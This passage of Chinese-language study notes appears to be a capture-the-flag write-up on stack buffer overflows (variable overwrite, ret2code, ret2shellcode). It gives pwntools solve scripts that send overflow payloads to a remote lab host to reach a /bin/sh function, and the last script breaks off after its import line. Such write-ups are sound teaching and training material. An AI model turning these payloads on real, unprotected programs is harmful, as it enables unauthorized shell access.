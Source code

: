 ### 範例
- 題目大意：輸入字串後分成兩關，第一關是要將某兩個int變成指定的value，第二關是要猜中某個random value
- 解法：利用BOF修改兩個int value以及random的值讓他不再random
- solve script:
```python!=
from pwn import *
payloads=b'a'*12+p32(0xfaceb00c)+p32(0xdeadbeef)+p32(0xaaaaaaaa)
r=remote('120.114.62.213', 2111)
#r=process('./luck')
s=r.recvuntil(':')
print(s)
r.sendline(payloads)
r.interactive()
```
圖：
![](https://hackmd.io/_uploads/rJvGXcBa3.png)
## BOF Ret2code
### 利用條件
- PIE被關閉
- 沒有Stack Canary
- 採用get讀取char陣列，導致Overflow成立
### 原理
Overflow到一個函數return的地方，並且注入某個程式碼片段中的位址，比單純BOF多一個PIE被關閉是因為PIE會將data段和code段位址隨機化
### 範例
- 題目大意：會要你輸入一個字串並讀取
- 解法：ghidra逆回去發現有個隱藏的函數是進到```/bin/sh```的admin功能，要overflow到ret的地方使code跑去隱藏的函數位址(可以用radare2敲出來)，最後payload在設計的時候只要記得除了把所有資料都overflow掉還要加上saved rbp的8 byte大小並接上隱藏函數的位址
- solve script:
```python!=
from pwn import *
r=remote('120.114.62.213',2121)
s=r.recvuntil('\n')
print(s)
s=r.recvuntil(':')
print(s)
payload=b'a'*0x28+p64(0x400646)
r.sendline(payload)
r.interactive()
```
圖：
![](https://hackmd.io/_uploads/SydoBqr6n.png)
## BOF Ret2ShellCode
### 利用條件
- NX被關閉
- PIE被關閉
- 沒有Stack Canary
- 採用get讀取char陣列，導致Overflow成立
### 原理
Overflow到一個函數return的地方，並且注入某個程式碼片段中的位址(此位置已被注入/bin/sh操作payload)，比ret2code還嚴格是因為NX會區分可執行可寫的權限不重疊，而可以注入shellcode payload的地方必須要同時能執行。
```geb-vmmapn 可以確定哪些記憶體區段是可以執行的```
### 範例
- 題目大意：會要你輸入你的名字以及另一個字串的簡單c程式
- 解法：第一次輸入從 [exploit-db](https://www.exploit-db.com/)上找到的linux_x86-64 shellcode字串payload
- solve script
```py!=
from pwn import *
```